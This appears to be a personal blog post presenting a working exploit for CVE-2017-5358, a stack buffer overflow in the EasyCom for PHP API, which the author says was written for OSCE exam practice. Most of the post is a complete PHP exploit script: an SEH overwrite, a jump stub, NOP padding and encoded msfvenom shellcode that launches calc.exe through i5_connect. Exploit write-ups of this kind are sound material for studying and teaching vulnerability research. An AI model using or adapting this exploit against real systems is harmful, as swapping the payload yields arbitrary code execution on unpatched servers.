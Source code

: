 ```yaml
---
title: "EasyCom For PHP 4.0.0 - Buffer Overflow Exploit"
date: 2017-11-18 22:00:00
excerpt: "Stack-based buffer overflows in php_Easycom5_3_0.dll in EasyCom for PHP 4.0.0.29 allows remote attackers to execute arbitrary code via the server argument to the (1) i5_connect, (2) i5_pconnect, or (3) i5_private_connect API function."
---
```


John Page (*Hyp3rlinX*) discovered a stack-based buffer overflows in EasyCom for PHP 4.0.0.29 (**CVE-2017-5358**). This security issue allows to a remote attacker to execute arbitrary code via the server argument to the API functions `i5_connect`, `i5_pconnect`, or `i5_private_connect`. All these functions are implemented inside `php_Easycom5_3_0.dll`.

I created a working exploit for fun and as my OSCE exam preparation.

## Environment
* EasycomPHP_4.0029.iC8im2.exe
* PHP 5.3.1 (cli) (built: Nov 20 2009 17:26:32)
* xampp-win32-1.7.3
* Windows XP SP2 32bit

## Exploit
```php
<?php

$nseh = "\xeb\x06\x90\x90";		# JMP ESP+6
$seh = "\x81\x04\x02\x10";		# POP POP RET - xampp\php\php5ts.dll

$jump_to_sc = "\x59\x59\x59";		# POP ECX ; POP ECX ; POP ECX
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xff\xe1"; # JMP ECX

# msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/shikata_ga_nai -f c
# size: 220 bytes
$shellcode = "\xb8\xcd\x5a\x0b\x2d\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1";
$shellcode  = $shellcode . "\x31\x31\x43\x13\x03\x43\x13\x83\xc3\xc9\xb8\xfe\xd1\x39\xbe";
$shellcode  = $shellcode . "\x01\x2a\xb9\xdf\x88\xcf\x88\xdf\xef\x84\xba\xef\x64\xc8\x36";
$shellcode  = $shellcode . "\x9b\x29\xf9\xcd\xe9\xe5\x0e\x66\x47\xd0\x21\x77\xf4\x20\x23";
$shellcode  = $shellcode . "\xfb\x07\x75\x83\xc2\xc7\x88\xc2\x03\x35\x60\x96\xdc\x31\xd7";
$shellcode  = $shellcode . "\x07\x69\x0f\xe4\xac\x21\x81\x6c\x50\xf1\xa0\x5d\xc7\x8a\xfa";
$shellcode  = $shellcode . "\x7d\xe9\x5f\x77\x34\xf1\xbc\xb2\x8e\x8a\x76\x48\x11\x5b\x47";
$shellcode  = $shellcode . "\xb1\xbe\xa2\x68\x40\xbe\xe3\x4e\xbb\xb5\x1d\xad\x46\xce\xd9";
$shellcode  = $shellcode . "\xcc\x9c\x5b\xfa\x76\x56\xfb\x26\x87\xbb\x9a\xad\x8b\x70\xe8";
$shellcode  = $shellcode . "\xea\x8f\x87\x3d\x81\xab\x0c\xc0\x46\x3a\x56\xe7\x42\x67\x0c";
$shellcode  = $shellcode . "\x86\xd3\xcd\xe3\xb7\x04\xae\x5c\x12\x4e\x42\x88\x2f\x0d\x08";
$shellcode  = $shellcode . "\x4f\xbd\x2b\x7e\x4f\xbd\x33\x2e\x38\x8c\xb8\xa1\x3f\x11\x6b";
$shellcode  = $shellcode . "\x86\xb0\x5b\x36\xae\x58\x02\xa2\xf3\x04\xb5\x18\x37\x31\x36";
$shellcode  = $shellcode . "\xa9\xc7\xc6\x26\xd8\xc2\x83\xe0\x30\xbe\x9c\x84\x36\x6d\x9c";
$shellcode  = $shellcode . "\x8c\x54\xf0\x0e\x4c\xb5\x97\xb6\xf7\xc9";

# SEH overwrite      = 1868 bytes
# payload_base       = 00C0F864
# ecx		     = 00C0FCB0
# ecx - payload_base = 1100 bytes

$nop1 = str_repeat("\x90", 1100);
$nop2 = str_repeat("\x90", 1868 - strlen($nop1) - strlen($shellcode));
$nop3 = str_repeat("\x90", 1000);

$payload = $nop1 . $shellcode . $nop2 . $nseh . $seh . $jump_to_sc . $nop3;

$conn = i5_connect($payload, "QPGMR", "PASSW") or die(i5_errormsg());

?>

```

## References
* [hyp3rlinx](http://hyp3rlinx.altervista.org/advisories/EASYCOM-PHP-API-BUFFER-OVERFLOW.txt)
* [SEH exploitation tutorial](http://www.thegreycorner.com/2010/01/seh-stack-based-windows-buffer-overflow.html)
* [exploit-db PoC](https://www.exploit-db.com/exploits/41425/)

The author is not responsible for the misuse of the information provided in this advisory.